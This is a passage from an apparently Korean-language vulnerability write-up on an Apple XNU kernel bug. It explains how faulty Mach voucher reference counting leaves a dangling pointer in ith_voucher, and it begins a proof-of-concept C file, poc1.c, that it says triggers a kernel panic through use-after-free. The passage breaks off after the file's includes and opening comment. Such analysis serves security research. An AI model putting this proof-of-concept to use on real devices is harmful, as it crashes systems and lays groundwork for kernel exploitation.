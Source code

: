 이제 문제를 보기 시작했을 것이다. 
**new_voucher**의 참조 카운트가 0으로 감소하여 객체가 해제될 수 있으며, 
**old_voucher**의 참조 카운트는 너무 많이 증가할 수 있다.

따라서 바우처를 가리키는 덩글링 포인터가 생길 수 있는데, 

이는 바우처를 가리키는 포인터를 저장한 후, 취약점을 이용해 바우처의 참조 카운트를 0으로 감소시켜 바우처를 해제함으로써 가능하다.

![image.png](pics/image%202.png)

## 개념 증명 코드 1

아래 개념 증명 코드는 Mach 바우처(Mach voucher)를 생성한 후, 
`thread_set_mach_voucher()`를 통해 현재 스레드의 `ith_voucher` 필드에 해당 바우처에 대한 참조를 저장한다.

이후 `task_swap_mach_voucher()`를 사용하여 참조 카운트를 1로 감소시키고, 사용자 공간에서 해당 바우처 포트를 할당 해제하여 바우처를 해제한다. 

이로 인해 해제된 바우처의 메모리에 대한 댕글링 포인터(dangling pointer)가 `ith_voucher`에 남게 되며, 이후 `thread_get_mach_voucher()` 호출을 통해 이 포인터에 접근하면 커널 패닉이 발생하게 되는 코드이다.

- poc1.c

```c
#include <assert.h>
#include <mach/mach.h>
#include <stdio.h>
#include <unistd.h>

// Stash the host port for create_voucher().
mach_port_t host;

/*
 * create_voucher
 *
 * Description:
 * 	Create a Mach voucher. If id is unique, then this will be a unique voucher (until another
 * 	call to this function with the same id).
 *
 * 	A Mach voucher port for the voucher is returned. The voucher has 1 reference, while the
 * 	voucher port has 2 references and 1 send right.
```
